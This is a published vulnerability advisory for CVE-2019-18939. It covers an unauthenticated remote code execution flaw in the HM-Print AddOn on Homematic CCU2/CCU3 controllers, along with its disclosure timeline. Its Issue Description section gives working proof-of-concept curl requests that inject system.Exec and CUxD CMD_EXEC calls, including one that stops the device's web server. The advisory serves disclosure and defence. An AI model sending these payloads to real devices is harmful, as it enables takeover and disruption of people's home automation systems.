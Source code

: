 ```yaml
---
layout: post
title:  "CVE-2019-18939 eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request"
datetime: 2019-11-13 20:00:00 MET
last_modified_at: 2020-11-05 21:00:00 MET
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-18939
- Author: psytester
- Title: eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: 05.11.2020
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'HM-Print' AddOn contacted: 13.08.2019 as [issue #4](https://github.com/litti/hm-print/issues/4)
  - Developer of 'HM-Print' AddOn confirmation: N.A.
  - 'HM-Print' AddOn patch: [Version 2.3](https://github.com/homematic-community/hm-print/releases/tag/2.3) released on 03.11.2020
  - Affected 'HM-Print' AddOn version: 2.2, 2.1, 1.2a and prior

# Background

From [Github 'HM-Print' AddOn project page](https://github.com/litti/hm-print):<br>
For documentation purposes it would sometimes be desirable to be able to print programs within the WebUI. Unfortunately, the interface does not offer a corresponding function. Also the built-in print function of the browser does not help, because scripts may remain unaffected by the printout. With this small AddOn this functionality can be easily retrofitted.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'HM-Print' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented internal system.Exec() call on exec.cgi or exec1.cgi:

```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
```

2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device call on exec.cgi or exec1.cgi:

```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
```

# CVE

[CVE-2019-18939](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18939)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
